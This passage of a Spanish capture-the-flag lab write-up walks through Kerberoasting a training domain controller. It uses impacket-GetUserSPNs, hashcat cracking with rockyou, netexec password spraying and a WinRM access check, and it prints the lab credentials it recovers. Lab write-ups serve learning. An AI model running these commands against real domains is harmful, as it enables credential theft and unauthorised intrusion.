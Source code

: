 ![Pasted image 20250314103332](https://github.com/user-attachments/assets/eb2990b1-c307-425e-914a-8b04fdb86149)

Parece que sí hay un usuario del que podremos sacar su hash (HSmith), pero ahora no podemos por el error que nos arroja: Clock skew too great. Esto significa que hay demasiada desincronización con el reloj del DC.

Para sincronizarlo, simplemente:

sudo ntpdate IPdelDC

``sudo ntpdate 10.10.10.175``

![Pasted image 20250314104113](https://github.com/user-attachments/assets/3241c2f2-84e2-4655-a005-e168f83dda72)


Repetimos.

``impacket-GetUserSPNs -request -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/fsmith``

![Pasted image 20250314104146](https://github.com/user-attachments/assets/52bfb799-959a-412c-9269-f041fa067ff7)

Ahora sí. Tenemos el hash de HSmith. O bien nos copiamos su contenido, o bien repetimos el comando redirigiendo el output a un archivo.

![Pasted image 20250314104422](https://github.com/user-attachments/assets/8b650177-ad0c-4d71-a972-cae22c7b3840)


Una vez lo tenemos, comprobamos a qué código interno pertenece en hashcat este tipo de hash (``krb5tgs$23$``)

``hashcat --help | grep -i "kerberos"``

![Pasted image 20250314104557](https://github.com/user-attachments/assets/c1490aba-d228-429b-84b2-47de0b5f3937)


Ahora que conocemos el código interno de hashcat, se lo pasamos junto con rockyou como diccionario.

``hashcat -m 13100 hsmithtgs /usr/share/wordlists/rockyou.txt --force``

![Pasted image 20250314105451](https://github.com/user-attachments/assets/214d915d-2faf-4587-8054-642ae5ec9345)

Anda, curiosamente es la misma contraeña que para Fsmith. Esto quiere decir que si hubiesemos hecho password spraying contra los usuarios del dominio, también podríamos haberla sacado:

``netexec smb 10.10.10.175 -u realusers.txt -p 'Thestrokes23' --continue-on-sucess``

![Pasted image 20250314105544](https://github.com/user-attachments/assets/be6a09e3-9735-468b-83e4-1cbd984dbc99)

Efectivamente, podríamos haberla sacado si hubiéramos hecho password spraying. A su vez, hemos validado las nuevas credenciales -> hsmith:Thestrokes23

Vamos a comprobar si este nuevo usuario forma parte de Remote Management Users para poder conectarnos con evil-winrm.

``netexec winrm 10.10.10.175 -u 'hsmith' -p 'Thestrokes23'``

![Pasted image 20250314105820](https://github.com/user-attachments/assets/354ab3fa-0564-428d-8de1-713c990dd931)
